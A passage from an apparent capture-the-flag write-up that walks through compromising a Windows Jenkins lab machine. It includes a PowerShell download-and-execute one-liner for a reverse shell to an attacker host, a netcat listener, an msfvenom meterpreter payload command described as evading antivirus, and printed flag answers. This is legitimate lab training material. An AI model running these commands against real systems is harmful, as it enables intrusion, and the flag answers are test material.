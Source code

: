You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server

1. Login to webpage using gathered credentials

![Login](https://miro.medium.com/max/495/1*3B3vaSjDtkpEB4AcK_o5cA.png)

![Configure](https://miro.medium.com/max/700/1*bOIfDiIny5l3dJPJfrgf-w.png)

2. Setup a python web server and netcat listener on kali

![Kali](https://miro.medium.com/max/700/1*9XtnE5pwS2bDZTtNPxZqZA.png)

    $ nc -lvnp 1337

    $python -m SimpleHTTPServer 8000

3. Download and run Invoke-PowerShellTcp.ps1 to target machine

powershell iex (New-Object Net.WebClient).DownloadString('http://<Local_IP>:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <Local_IP> -Port 1337

**PS C:\Program Files (x86)\Jenkins> type secret.key**
**cb2ae36e1862a23b3adfd393282eae76f896f2efb0a4da79643e33afc616751e**


**Answer: No answer need**

What is the user.txt flag?

    PS C:\Users\bruce\Desktop> dir


      Directory: C:\Users\bruce\Desktop


        Mode                LastWriteTime     Length Name                              
          ----                -------------     ------ ---    -                              
            -a---        10/25/2019  11:22 PM         32 user.txt                          


              PS C:\Users\bruce\Desktop> type user.txt

**Answer: 79007a09481963edf2e1321abd9ae2a0**

### [Task 2] Switching Shells

![meterpreter](https://i.imgur.com/c7WqHoH.png)

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.
